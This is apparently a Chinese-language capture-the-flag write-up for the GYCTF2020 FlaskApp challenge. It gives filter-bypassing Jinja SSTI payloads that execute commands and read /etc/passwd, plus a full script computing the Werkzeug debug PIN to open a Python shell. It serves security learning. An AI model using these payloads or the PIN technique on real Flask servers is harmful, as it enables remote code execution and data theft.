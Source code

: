 # \[GYCTF2020]FlaskApp

## \[GYCTF2020]FlaskApp <a href="#2155852200" id="2155852200"></a>

## 考点

* Flask debug模式
* Flask SSTI绕过
* Flask PIN值

## wp

进行解码测试的时候发现会报错进入debug页面，然后可以看到一部分代码

![](../../.gitbook/assets/pi8ZT4Kba6xALdO.png)

这部分代码说明存在 SSTI，并且需要绕过 `waf()` 函数，测试了一下，过滤的内容如下

```
b'request'
b'__import__'
b'eval'
b'popen'
b'system'
b'flag'
b'*'
b'import'
```

试着发现好像把命令执行的函数都给 ban 了

### 非预期

尝试使用字符串拼接来绕过对这些函数的限制

```bash
{{''.__class__.__base__.__subclasses__()[131].__init__.__globals__['__builtins__']['ev'+'al']('__im'+'port__("o'+'s").po'+'pen("cat /this_is_the_fl'+'ag.txt")').read()}}
```

### 预期

先读取文件试试

payload : `{{''.__class__.__mro__[1].__subclasses__()[75].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}`&#x20;

转成base64输入

![](../../.gitbook/assets/qCSQYk76jUBGe1Z.png)

这里就有个任意文件读取。

在debug页面可以通过输入pin码打开python shell

生成PIN的关键值有如下几个

* 服务器运行 flask 所登录的用户名。 通过 /etc/passwd 中可以猜测为 flaskweb 或者 root ，此处用的flaskweb
* modname 一般不变就是 flask.app
* `getattr(app, "__name__", app.__class__.__name__)` python 该值一般为 Flask，值一般不变
* flask 库下 app.py 的绝对路径，通过报错信息就会泄露该值。本题为 `/usr/local/lib/python3.7/site-packages/flask/app.py`
* 当前网络的 mac 地址的十进制数。通过文件 `/sys/class/net/eth0/address` 获取，本题为 `02:42:ae:01:54:15`
* 最后一个就是机器的 id 对于非 docker 机每一个机器都会有自已唯一的 id ，linux的 id 一般存放在 `/etc/machine-id` 或 `/proc/sys/kernel/random/boot_i`，有的系统没有这两个文件，windows 的 `id` 获取跟 `linux` 也不同。对于 `docker` 机则读取 `/proc/self/cgroup` 本题为 `201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201`

接下来就是获取 PIN 值，计算PIN值的关键代码在 `Lib\site-packages\werkzeug\debug\__init__.py`

```python
import hashlib
from itertools import chain
probably_public_bits = [
    'flaskweb',
    'flask.app',
    'Flask',
    '/usr/local/lib/python3.7/site-packages/flask/app.py',
]

private_bits = [
    # mac 地址的十进制数
    '2485410419733',
    # 机器的 id 
    '201263bbeb51e7fc9fd059b0acb7769564dc66450fde4f8ad0a45bbb8a99e201'
]

h = hashlib.md5()
for bit in chain(probably_public_bits, private_bits):
    if not bit:
        continue
    if isinstance(bit, str):
        bit = bit.encode('utf-8')
    h.update(bit)
h.update(b'cookiesalt')

cookie_name = '__wzd' + h.hexdigest()[:20]

num = None
if num is None:
    h.update(b'pinsalt')
    num = ('%09d' % int(h.hexdigest(), 16))[:9]

rv =None
if rv is None:
    for group_size in 5, 4, 3:
        if len(num) % group_size == 0:
            rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                          for x in range(0, len(num), group_size))
            break
    else:
        rv = num

print(rv)
```

得到结果 `676-092-706`

然后选择右侧 shell 图标

![](../../.gitbook/assets/sXHONA7JYVdDtRi.png)

输入 PIN 值

![](<../../.gitbook/assets/image (2) (1) (1) (1).png>)

![](<../../.gitbook/assets/image (34) (1) (1) (1) (1) (1) (1).png>)

这里执行 `os.system('ls /')` 返回为 `0`，是因为这个命令虽然执行了，但是没有获取执行的结果，即 os.system 仅仅在一个子终端运行系统命令，而不能获取命令执行后的返回信息
